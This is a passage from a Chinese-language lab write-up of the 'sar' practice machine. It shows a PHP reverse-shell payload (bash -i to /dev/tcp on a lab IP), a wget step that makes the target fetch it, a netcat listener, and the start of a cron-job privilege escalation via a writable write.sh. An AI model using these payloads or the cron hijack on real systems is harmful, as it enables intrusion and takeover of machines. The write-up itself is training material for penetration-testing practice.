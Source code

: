 尝试wget远程下载php

‍

`test.txt`：`<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.9.150/1234
0>&1'");?>`

![](/images/sar--打靶笔记/1752587179870.png)

靶机下载：`wget http://192.168.9.150/test.txt -O test.php`

kali开启监听：`nc -lvnp 1234`

然后访问对应地址：`http://192.168.9.160/sar2HTML/test.php`

![](/images/sar--打靶笔记/1752587179936.png)

‍

![](/images/sar--打靶笔记/1752587179998.gif)**PART.****0****4** 提权  
  
  
**·** **基础信息** **·**  

![](/images/sar--打靶笔记/1752587180160.png)

‍

  
  
**·** **自动任务提权** **·**  

第一反应是自动任务提权

（回忆提示：网页上有出现自动任务）

‍

看一下自动任务：

    
    
    cat /etc/crontab

![](/images/sar--打靶笔记/1752587180305.png)

每五分钟执行以下`/var/www/html/finally.sh`

‍![](/images/sar--打靶笔记/1752587180517.png)

  

可惜没有写的权限。

看眼内容：

![](/images/sar--打靶笔记/1752587180620.png)

诶哦？！我们有`write.sh`的所有权限啊。

看眼：

![](/images/sar--打靶笔记/1752587180674.png)
